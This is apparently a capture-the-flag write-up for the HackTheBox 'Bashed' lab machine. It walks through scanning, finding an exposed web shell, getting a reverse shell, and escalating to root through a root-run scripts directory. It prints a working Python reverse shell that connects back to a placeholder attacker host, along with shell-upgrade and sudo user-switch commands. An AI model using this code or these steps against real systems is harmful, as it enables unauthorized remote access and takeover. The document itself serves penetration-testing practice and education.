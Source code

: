 # HackTheBox - Bashed Writeup


## Nmap

As always. I'm gonna run the Nmap scan. Here is the result of the scan.

### result

```sql
# Nmap 7.92 scan initiated Sat Feb 26 01:50:32 2022 as: nmap -sC -sV -oN nmap/bashed 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Feb 26 01:50:44 2022 -- 1 IP address (1 host up) scanned in 12.17 seconds
```

port `80/HTTP` is the only one open.

### Http

Let's take a look at the website. 

![phpbash webpage](website.png "phpbash webpage")

Turns out, the `phpbash` is a web shell. Well, it is an open-source project and I found the GitHub link on the site itself.

```bash
https://github.com/Arrexel/phpbash
```

On the GitHub page. The `phpbash` location looks like at the uploads directory. However, when I went to the uploads directory it's nothing there.

![check upload directory](upload_dir.png "check upload directory")

### Gobuster

So, I'm gonna run the `gobuster` to search all hidden directories. It found a bunch of directories but the `/dev` really caught my eye.

![gobuster](gobuster.png "gobuster")

### /dev

Let's take a look at the `/dev` directory. Wow! found it. Now, I'm just clicking the `phpbash.php` and I've got the web shell as the `www-data` user. 

![directory listing](dev.png "directory listing")

![phpbash web shell](web_shell.png "phpbash web shell")

## Reverse Shell

Let's try to get the proper reverse shell. I have already tried a bunch of things to gain the reverse shell. However, the `base64` method seems to be working.

So, the first thing is I'm gonna encoded this `bash reverse shell` into `base64`

![bash oneliner base64](b64.png "bash oneliner base64")

Then, I'm gonna put it into the input of `phpbash`. Down below; is a syntax should be.  Make sure to set up an `nc` listener first. 

![execute reverse shell](bs64_webshell.png "execute reverse shell")

![shell as www-data](got_the_shell.png "shell as www-data")

### Upgrade shell using python

YES! I got the shell. Let's upgrade this shell into a proper shell. First, let's import called `/bin/bash` using python with `pty module`. Then, export the terminal to have the clear screen and press `Ctrl + Z` to put it, into the background. Last, type the `stty raw -echo; fg` and press `Enter` 2 times, and there you go!

```bash
-> python3 -c 'import pty;pty.spawn("/bin/bash")'
-> export TERM=xterm
Ctrl + Z 
-> stty raw -echo; fg
```

### User scriptmanager

The first thing a love to do when get access to the machine. I love to check the sudo permission. Let's check it with `sudo -l`. Shockingly, I can run the `sudo` with the `www-data` user. 

![check sudo permission](scriptmanager.png "check sudo permission")

Looks like, I can run any command with the `scriptmanager` user without authentication. Well, let's change into that user with this syntax;

```bash
sudo -u scriptmanager bash
```

![change user to scriptmanager](change_2_scriptmanager.png "change user to scriptmanager")

### /scripts

This is caught by surprise. I found the `/scripts` directory located in the base `/`. Luckily, I already become the `scriptmanager`. Let's take a peek into the particular directory.

![found /scripts directory](script_dir.png "found /scripts directory")

So, the directory content 2 files are called `test.py` and `test.txt`. However, the test.txt is owned by the `root` user. After endless investigation ;) Looks like any python file in here is gonna run by root. Like a `cronjob`.

![contents in /scripts](contents.png "contents in /scripts")

## Root Shell

What we know. Any python file in that directory got to execute. So, I'm gonna make a `python file` that contains `reverse shell`. After, all set up just wait for a minute, and BOOM! <br>
_<font color="yellow">make sure to setup nc listener first</font>_

```python
# Python Reverse Shell
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("TUN0",PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty; pty.spawn("/bin/bash")
```

![shell as root](petai_root.png "shell as root")

